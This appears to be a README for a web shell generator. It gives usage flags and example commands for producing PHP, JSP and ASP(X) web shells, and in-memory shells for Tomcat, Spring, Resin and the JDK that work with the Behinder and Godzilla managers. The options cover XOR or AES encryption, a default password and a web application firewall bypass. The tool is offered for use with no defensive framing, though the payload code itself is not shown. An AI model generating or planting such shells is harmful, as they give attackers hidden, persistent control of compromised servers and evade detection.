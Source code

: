 ```

              _         _          _ _
__      _____| |__  ___| |__   ___| | |
\ \ /\ / / _ \ '_ \/ __| '_ \ / _ \ | |
 \ V  V /  __/ |_) \__ \ | | |  __/ | |
  \_/\_/ \___|_.__/|___/_| |_|\___|_|_|
                                   vsersion  1.1
                -p password | Default password  noway
                -s php | jsp | asp | aspx
                -e xor | aes
                -d be | god

  -b string
        something bypass waf | php
  -d string
        -d Behinder(Be) | Godzilla(God)
  -e string
         xor aes 128 only Behinder and Godzilla
  -h    help
  -l string
        -l spring tomacat resin jdk
  -p string
        -p password (default "noway")
  -s string
        -s php | jsp | asp | aspx
       
```

There are some tips you can get :

```
Generate memory shell
Usage of God
tomcat:
.\webshell.exe -d God -e aes -l tomcat
spring:
 .\webshell.exe -d God -e aes -l spring
 resin:
 .\webshell.exe -d God -e aes -l resin
 jdk:
  .\webshell.exe -d God -e aes -l jdk
  
  
  Usage of Be (xor aes)
  tomcat:
   .\webshell.exe -d be -e xor -l tomcat
  spring:
   .\webshell.exe -d be -e xor -l spring
  resin:
   .\webshell.exe -d be -e xor -l resin
  
```

 what is more you need to konw is that  Godzilla only has aes code

About the bypass option, only generation is currently supported And only php>7.0 is supported

```
The following is general usage
 .\webshell.exe -s php -p 666
```

![image-20230222150909571](C:\Users\13401\AppData\Roaming\Typora\typora-user-images\image-20230222150909571.png)

![image-20230222150923257](C:\Users\13401\AppData\Roaming\Typora\typora-user-images\image-20230222150923257.png)

End:Update every two months

